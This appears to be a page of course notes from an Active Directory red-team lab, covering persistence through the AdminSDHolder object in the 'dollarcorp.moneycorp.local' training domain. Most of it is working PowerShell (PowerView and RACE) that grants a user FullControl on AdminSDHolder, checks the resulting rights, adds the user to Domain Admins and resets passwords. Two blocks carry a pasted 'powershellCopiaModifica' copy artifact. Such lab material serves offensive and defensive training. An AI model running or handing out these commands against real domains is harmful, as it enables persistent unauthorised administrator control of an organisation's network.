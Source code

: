 # 8.7.1 - AdminSDHolder

## AdminSDHolder

* **AdminSDHolder** is an object located under the `System` container in AD. It defines ACLs for high-privilege "protected groups", such as:
  * Domain Admins
  * Enterprise Admins
  * Schema Admins
  * Backup Operators
  * Server Operators
  * and others
* A system process called **SDProp** runs **every 60 minutes**, syncing the ACL of protected group members to match that of the AdminSDHolder.

#### 🎯 Persistence Technique:

Granting permissions to a user on the AdminSDHolder object causes that permission to propagate to all protected groups.

**Example: Grant FullControl to `student1`**

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' `
                    -PrincipalIdentity student1 `
                    -Rights All `
                    -PrincipalDomain dollarcorp.moneycorp.local `
                    -TargetDomain dollarcorp.moneycorp.local `
                    -Verbose
```

**Alternative (RACE Toolkit):**

```powershell
powershellCopiaModificaSet-DCPermissions -Method AdminSDHolder `
                  -SAMAccountName student1 `
                  -Right GenericAll `
                  -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' `
                  -Verbose
```

#### 🔍 Verifying Admin Rights:

Using PowerView:

```powershell
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs |
  ForEach-Object {
    $_ | Add-Member NoteProperty 'IdentityName' (Convert-SidToName $_.SecurityIdentifier) -Force; $_
  } | Where-Object {$_.IdentityName -match "student1"}
```

Or using the AD module:

```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access |
  Where-Object {$_.IdentityReference -match 'student1'}
```

***

### Abusing AdminSDHolder Permissions

#### Add to DA group (if you have `FullControl`)

```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members student1
```

#### Reset password (if `ResetPassword` right is granted)

```powershell
powershellCopiaModificaSet-DomainUserPassword -Identity student1 -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force)
```

#### Write group membership (`WriteMembers`)

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' `
                    -PrincipalIdentity student1 -Rights WriteMembers
```

### Labs

* [Learning Object 12 lab](../../lab/12-lo1-2.md)
